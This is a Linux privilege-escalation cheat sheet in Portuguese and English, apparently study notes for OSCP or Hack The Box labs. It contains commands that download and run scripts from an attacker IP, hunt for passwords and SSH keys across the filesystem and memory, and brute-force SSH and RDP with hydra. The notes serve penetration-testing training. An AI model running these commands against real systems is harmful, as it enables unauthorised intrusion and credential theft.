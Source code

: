 # Linux Privilege Escalation

### Kernel

Linux Exploit Suggester

```
wget http://10.10.14.17/4-privilege_escalation/les.sh
chmod +x les.sh
./les.sh
```

```
cat /etc/lsb-release
cat /etc/issue
cat /proc/version
hostname
​uname -a
```

[https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/kernel-exploitation](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/kernel-exploitation)\


**Considerar a compilação para sistemas 32 bits**

https://www.geeksforgeeks.org/compile-32-bit-program-64-bit-gcc-c-c/

### Navegar nos diretórios

Seguindo o a mesma premissa do windows, vamos verificar primeiramente o kernel e em sequência gente pode olhar alguns diretórios logo de cara:

```
ls -al /usr/local/
ls -al /usr/local/src
ls -al /usr/local/bin
ls -al /opt/
ls -R -al /home #Fazer recursivamente neste
ls -al /var/
ls -al /usr/src/
```

OS COMANDOS AQUI SÃO EXECUTADOS TODOS NA MÁQUINA VÍTIMA

### SUID e SGID

Com isso podemos executar o arquivo (caso seja um executável) conforme a permissão do dono do arquivo. Ou seja, se o dono do arquivo for root e o SUID bit estiver definido para o binário, podemos realizar a escalação de privilégio.

```
find / -perm -u=s -type f 2>/dev/null
```

```
find / -perm -g=s -type f 2>/dev/null
```

### LinEnum

```
wget http://10.10.14.17/4-privilege_escalation/LinEnum.sh -O le
chmod +x le
./le
```

### bangenum

\
[bangenum.sh](https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh)

é um resumo do LinEnum.sh

```
wget http://10.10.14.17/4-privilege_escalation/bangenum.sh
sed -i -e 's/\r$//' bangenum.sh
chmod +x bangenum.sh
./bangenum.sh
```

### Local services

```
netstat -nao
```

Vale olhar também se algumas aplicações web estão escondidas no host. Por exemplo:

```
cat /etc/apache2/sites-enabled/*.conf
```

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption><p>Pandora.htb</p></figcaption></figure>

### Crontab (Serviços agendados)

```
cat /etc/crontab
crontab -l
```

### Process Enumeration

[pspy](https://github.com/DominicBreuker/pspy)

<pre><code>wget http://10.10.14.17/4-privilege_escalation/pspy64 -O p64
chmod +x p64
<strong>./p64
</strong></code></pre>

```
wget http://10.10.14.17/4-privilege_escalation/pspy32 -O p32
chmod +x p32
./p32
```

```
ps axu
```

### Reused Password

Tentar usuário e senha sendo o mesmo com hydra, por exemplo

```
hydra -L user.txt -P user.txt 10.10.10.10 ssh
hydra -L users.txt -P users.txt rdp://10.10.10.10
```

Tentar senha de um usuário para outro também e rockyou

### Credentials from config files

Procurar a string PASSWORD ou password dentro de arquivos

```
grep -rnw / -e 'password\|pass\|creds\|senha\|credentials' 2>/dev/null -i
```

```
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

In memory passwords

```
strings /dev/mem -n10 | grep -i PASS
```

Generally, source code with hard coded credentials. Search for php files, for exemplo

\
Credentials from local databases

Dump de credenciais do banco de dados

### Sudo access

```
sudo -i
sudo su
sudo -
```

\# Este temos de verificar os binários que podemos executar com permissão de root

```
sudo -l
```

### SSH keys

```
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```

### Binary exploitation

User Installed Software

Has the user installed some third party software that might be vulnerable? Check it out. If you find anything google it for exploits.

Common locations for user installed software

```
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/
```

Debian

```
dpkg -l
```

CentOS, OpenSuse, Fedora, RHEL

```
rpm -qa (CentOS / openSUSE )
```

OpenBSD, FreeBSD

```
pkg_info
```

\## PATH Hijack

Vide máquina \[Pandora]\(Pandora.md#PrivEsc)
